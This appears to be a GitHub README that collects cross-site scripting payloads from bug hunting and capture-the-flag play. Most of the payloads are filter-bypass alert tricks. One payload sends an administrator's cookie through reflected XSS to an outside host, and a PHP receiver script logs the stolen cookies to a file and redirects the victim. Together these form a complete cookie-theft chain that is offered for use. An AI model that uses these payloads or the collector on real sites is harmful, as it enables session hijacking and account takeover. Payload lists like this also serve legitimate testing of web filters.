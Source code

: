 # description
I found some useful payloads while bug hunting or playing some ctfs
so here it is !

## Payloads

for no closing script tags
><img src=no onerror=alert(1) foo=
><SCRIPT SRC=http://xss.rocks/xss.js?< B >

bypass basic filters to execute an alert box
>';">'>alert(String.fromCharCode(88,83,83))

without quotes and semicolons
><IMG SRC=javascript:alert('XSS')>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

without any space

>"><img/src="x"/onerror=alert(99)>

steal admins cookie via reflect xss

><img src=x onerror=document.location='http://https://callmerat.000webhostapp.com/c.php?c='+document.cookie;'>
  
php file receiver
>
<?php


header('location:https://google.com');
$cookies=$_GET["c"];
$file=fopen('log.txt', 'a');
fwrite($file, $cookies . "\n\n");
?>

 "&gt;&lt;img src=x onerror=alert(document.domain)&gt; 
